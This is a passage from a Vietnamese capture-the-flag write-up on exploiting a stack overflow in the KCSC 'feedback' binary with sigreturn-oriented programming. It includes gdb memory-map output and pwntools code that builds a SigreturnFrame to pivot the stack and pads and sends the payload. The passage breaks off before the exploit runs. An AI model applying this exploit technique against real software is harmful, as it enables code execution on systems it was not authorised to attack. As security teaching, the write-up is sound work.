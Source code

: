 Vậy số lần ta cần nhập sẽ là `8189` thì sẽ overwrite saved rip. Vậy bây giờ ta sẽ tạo payload và cho nó nhập lần lượt vào xem coi sao.

Trước tiên, ta dùng gdb để lấy đoạn địa chỉ ghi được:

```gdb
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x00000000401000 0x00000000000000 r-- /home/nguyenhuutri/CTF/KCSC/feedback/feedback
0x00000000401000 0x00000000402000 0x00000000001000 r-x /home/nguyenhuutri/CTF/KCSC/feedback/feedback
0x00000000402000 0x00000000403000 0x00000000000000 rw- 
0x007ffdcb3d5000 0x007ffdcb3f6000 0x00000000000000 rw- [stack]
0x007ffdcb3f8000 0x007ffdcb3fc000 0x00000000000000 r-- [vvar]
0x007ffdcb3fc000 0x007ffdcb3fe000 0x00000000000000 r-x [vdso]
```

Vậy đoạn địa chỉ ghi được nằm trong khoảng `0x402000` tới `0x403000`. Vậy bây giờ ta tạo frame để stack pivot và thực hiện read 1 lần nữa (syscall mà ta dùng trong frame là syscall của read từ chương trình mà sau khi read xong sẽ kiểm tra xem chuỗi được nhập có chữ cái đầu là `q` hay không nha)

```python
frame = SigreturnFrame()
frame.rax = 0
frame.rdx = 0x300
frame.rsi = 0x00000000402000
frame.rdi = 0
frame.rbp = 0x00000000402000
frame.rsp = 0x00000000402008
frame.rip = 0x401082
```

Và ta tạo nên 1 cái payload như sau:

```python
sigreturn = 0x00000000004010ce
payload = flat(
    bytes(frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')

for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Ta dùng `rjust` để pad payload dài đủ `8189*8` byte. Và bởi vì ta nhập input ngược từ dưới lên nên payload ta phải pad trước rồi mới tới frame rồi mới tới gadget sigreturn.

Chạy thử script và debug với gdb để xem liệu payload của ta có được ghi vào đúng hay không:
